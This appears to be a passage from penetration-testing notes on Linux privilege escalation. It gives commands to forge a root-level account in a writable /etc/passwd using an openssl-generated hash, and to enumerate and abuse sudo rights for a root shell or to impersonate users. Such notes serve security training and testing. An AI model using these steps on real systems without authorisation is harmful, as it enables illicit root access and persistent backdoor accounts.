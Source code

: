 ### Creating a new passwd entry

Here is how you can manually add an entry to a writable /etc/passwd file. By the way: hashes in the passwd file take precedent over the shadow file thanks to legacy support.

```bash
# create a MD5-based ($1$ hash)
openssl passwd -1 -salt hack cowabunga77
$1$hack$Ms0RDU0fPwY2uBBL9/Cnb/

# (alternative) create a sha-512 ($6$ hash)
mkpasswd -m sha-512 cowabunga77
```

Add the new root (0:0) user at the bottom of the /etc/passwd file.
```bash
hack:$1$hack$Ms0RDU0fPwY2uBBL9/Cnb/:0:0:root:/root:/bin/bash
```

Now you can use `su hack` in order to switch to root.


## Sudo

🠒 See the [dedicated sudo notes](./linux/sudo.md) for more details and exploitation examples.

---

If you can read the `/etc/sudoers` file, then do so first. Look at your own permissions and look for users who have better permissions.

Otherwise check what you can run:

```bash
# check own sudo access rules
sudo -l
```

Note that this might cause **failed password attempts** if you do not know the password of the current user (noisy). Often you can run this without having to type the password though.

If you have `(ALL : ALL) ALL` then you can use sudo to have **full root privileges**, assuming you know the password. `(ALL) NOPASSWD: ALL` means you can do so without having to type a password at all.

Switch to a root shell with:

```bash
# switch to root
sudo su -
```

If you can run commands as another user, e.g. `(someuser : somegroup)`, then you want to check what interesting files are owned by that user. Also you can impersonate that user with:

```bash
# impersonate another user with sudo
sudo -u <user> <command>
sudo -u someuser whoami
```
